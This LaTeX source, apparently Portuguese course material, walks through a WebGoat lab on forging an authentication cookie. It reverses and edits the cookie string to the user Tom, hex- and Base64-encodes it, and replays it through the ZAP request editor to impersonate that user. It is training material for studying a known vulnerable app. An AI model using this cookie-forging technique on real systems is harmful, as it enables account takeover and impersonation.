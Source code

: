 \documentclass[11pt]{ifscarticle}
\begin{document}
\begin{enumerate}
\begin{lstlisting}[style=shell]
Admin = adminUgzKFpRnCC
WebGoat = webgoatUgzKFpRnCC
\end{lstlisting}
    \item Agora substitua na string revertida \texttt{Admin} ou \texttt{WebGoat}  por \texttt{Tom}.
\begin{lstlisting}[style=shell]
TomUgzKFpRnCC
\end{lstlisting}
    \item Inverta novamente a string:
\begin{lstlisting}[style=shell]
CCnRpFKzgUmoT
\end{lstlisting}
    \item Em seguida, volte para a seção String para HEX no CodeBeautify e codifique a string acima.
\begin{lstlisting}[style=shell]
43436e5270464b7a67556d6f54
\end{lstlisting}
    \item Vá para o site Base64Encode e faça o encode da string em UTF-8.
\begin{lstlisting}[style=shell]
NDM0MzZlNTI3MDQ2NGI3YTY3NTU2ZDZmNTQ=
\end{lstlisting}
    \item Como autenticar o novo cookie de autenticação?
        \begin{itemize}
            \item Encontre a requisição POST correspondente
            \item Encaminhe para o Manual Request Editor (ZAP)
            \item Adicione após \texttt{Cookie:JSESSIONID} o cookie de autenticação falsificado
\begin{lstlisting}[style=shell]
spoof_auth=NDM0MzZlNTI3MDQ2NGI3YTY3NTU2ZDZmNTQ=
\end{lstlisting}
            \item Envie a requisição e você receberá uma mensagem de sucesso
        \end{itemize}
    \item Com a manipulação do cookie autenticado, agora podemos nos passar por outro usuário, neste caso \textbf{Tom}.
\end{enumerate}

\vspace*{\fill}
\licenciamentoLivre
\end{document}
